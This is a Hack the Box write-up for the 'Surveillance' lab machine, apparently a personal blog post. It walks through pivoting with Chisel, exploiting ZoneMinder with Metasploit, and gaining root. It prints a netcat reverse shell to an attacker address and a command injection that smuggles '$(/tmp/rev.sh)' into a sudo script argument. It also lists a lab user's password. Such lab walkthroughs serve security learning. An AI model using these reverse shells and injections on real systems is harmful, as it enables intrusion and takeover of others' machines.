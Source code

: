 ```yaml
---
description: >-
  H3xano's write-up on the HTB machine : [Medium] Surveillance
title: Hack the Box - Surveillance Writeup
date: 2023-12-13 00:00:00 -0000
categories: [Hack the Box, Writeup]
tags: [htb, hacking, hack the box, writeup]     # TAG names should always be lowercase
show_image_post: true
image: /assets/img/surveillance-badge.png
---
```


## HTB - Surveillance

## Overview

![Descriptive information card about Surveillance](/assets/img/surveillance-infocard.png)

The target machine, named "Surveillance", is a medium difficulty Linux machine. It involves multiple steps for compromise. It begins with establishing a foothold as the www-data user, followed by privilege escalation through the Matthew user. The final escalation results in root access via the Zoneminder user.

### Target Information:

- **IP Address:** `<machine ip>`
- **Users:** www-data, Matthew, zoneminder

## Foothold:

### www-data to Matthew:

1. **Connect as www-data:**
   ```bash
   ssh www-data@<machine ip>
   ```
   Upon successful connection, retrieve the credentials for the Matthew user: `matthew:starcraft122490`.

### Matthew to Zoneminder:

1. **Port Forwarding with Chisel:**
   - Utilize Chisel for secure and efficient port forwarding.
     ```bash
     # Run Chisel server at attacker's machine
     ./chisel server --port 1337 --reverse --socks5
     ```

     ```bash
     # Transfer Chisel to victim's PC
     python -m http.server 8888
     wget <your_ip>:8888/chisel
     chmod +x chisel
     ./chisel client <your_ip>:1337 R:<victim_port>:127.0.0.1:8080 &
     ```

2. **Access Zoneminder CMS:**
   - The forwarded port allows access to the Zoneminder CMS from the attacker's machine. Open the browser and navigate to `http://127.0.0.1:<victim_port>`.

3. **Exploitation with Metasploit:**
   - Utilize Metasploit to exploit a vulnerability in Zoneminder Snapshots.
     ```bash
     msfconsole
     ```

     ```bash
     use exploit/unix/webapp/zoneminder_snapshots
     ```

     ```bash
     set RHOSTS <victim_ip>
     set RPORT <victim_port>
     set LHOST <your_ip>
     set TARGETURI /
     ```

     ```bash
     exploit
     ```

     ```bash
     shell
     ```

   This sequence results in the establishment of a Meterpreter session, providing a shell on the victim machine.

### Retrieve User Flag:

4. **Locate User Flag:**
   - Once in the Meterpreter session, navigate to the user's home directory and retrieve the user flag.
     ```bash
     cat /home/Matthew/user.txt
     ```

## Privilege Escalation:

### Zoneminder to Root:

1. **Prepare Reverse Shell:**
   - Create a reverse shell script (`rev.sh`) and place it in `/tmp` on the victim machine.
     ```bash
     #!/bin/bash
     busybox nc 10.10.xx.xx 443 -e sh
     ```

2. **Start a Listener:**
   - Initiate a listener on the attacker's machine to capture the reverse shell connection at port 443.

3. **Execute Privilege Escalation Command:**
   - Run the following command as the zoneminder user to leverage the `zmupdate.pl` script for privilege escalation.
     ```bash
     sudo /usr/bin/zmupdate.pl --version=1 --user='$(/tmp/rev.sh)' --pass=ZoneMinderPassword2023
     ```

4. **Retrieve Root Flag:**
   - Upon execution, the reverse shell script triggers a connection to the attacker's machine. Navigate to the root directory and retrieve the root flag.
     ```bash
     cat /root/root.txt
     ```

## Conclusion:

This comprehensive approach ensures a systematic compromise of the target machine, covering initial access, privilege escalation, and retrieval of both user and root flags. It is crucial to replace placeholder values such as `<machine ip>`, `<your_ip>`, and `10.10.xx.xx` with actual values during the exploitation process. Happy hacking!
